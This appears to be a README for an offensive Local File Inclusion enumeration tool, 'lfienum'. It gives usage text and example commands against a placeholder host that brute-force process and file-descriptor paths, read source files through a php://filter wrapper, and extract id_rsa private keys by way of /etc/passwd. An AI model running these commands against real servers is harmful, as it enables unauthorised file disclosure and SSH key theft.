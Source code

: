 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```zsh
Local File Inclusion Enumerator v1.0 by 0bfxgh0st*
Usage python3 lfienum <url> <option>

Options:

    --pid                Bruteforce 999 process id
    --fd                 Bruteforce /proc/self/fd/X (default set to 30)
    --wrapper            (php://filter/convert.base64-encode/resource=)
    -w or --wordlist     Use a custom wordlist
    -k or --key          Extract id_rsa key

Last positional argument:

    -vvv                 Verbose show package stats
    --only-url           Dump urls only

Examples:

    python3 lfienum "http://ghost.server/index.php?page="
    python3 lfienum "http://ghost.server/index.php?page=" --pid
    python3 lfienum "http://ghost.server/index.php?page=" --fd
    python3 lfienum "http://ghost.server/index.php?page=" --wrapper index.php
    python3 lfienum "http://ghost.server/index.php?page=" --wordlist wordlist.txt
    python3 lfienum "http://ghost.server/index.php?page=" --key
```
Auto id_rsa key extraction from /etc/passwd, check `def IdRSA():` function
